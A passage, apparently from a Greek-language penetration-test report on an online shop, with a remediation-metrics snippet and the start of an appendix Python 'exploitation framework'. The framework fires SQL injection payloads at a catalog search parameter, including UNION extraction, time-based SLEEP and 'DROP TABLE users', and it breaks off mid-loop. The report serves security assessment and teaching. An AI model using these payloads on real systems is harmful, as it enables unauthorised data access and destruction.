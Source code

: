 ```python
# Track remediation progress
success_metrics = {
    "vulnerabilities_fixed": "5/5 critical",
    "time_to_patch": "<48 hours",
    "security_training": "100% staff",
    "compliance_score": ">95%",
    "risk_reduction": ">90%",
    "roi_achieved": ">500%"
}
```

---

## Παραρτήματα

### Παράρτημα Α: Exploit Automation Framework

```python
#!/usr/bin/env python3
"""
E-Shop Exploitation Framework
Educational purposes only!
"""

import argparse
import requests
from colorama import init, Fore
import time
import json

init(autoreset=True)

class EShopExploiter:
    def __init__(self, target_url):
        self.target = target_url.rstrip('/')
        self.session = requests.Session()
        self.vulnerabilities = []
        
    def banner(self):
        print(Fore.RED + """
        ╔═══════════════════════════════════════╗
        ║   E-Shop Exploitation Framework v2.0  ║
        ║      Educational Purpose Only!        ║
        ╚═══════════════════════════════════════╝
        """)
        
    def test_sql_injection(self):
        """Test for SQL injection vulnerabilities"""
        print(Fore.YELLOW + "[*] Testing SQL Injection...")
        
        payloads = [
            "' OR '1'='1",
            "' UNION SELECT NULL,database(),NULL,NULL,NULL,NULL,NULL--",
            "' AND SLEEP(5)--",
            "'; DROP TABLE users--"
        ]
        
        for payload in payloads:
            try:
                start = time.time()
                r = self.session.get(f"{self.target}/catalog/?q={payload}")
                elapsed = time.time() - start
                
```
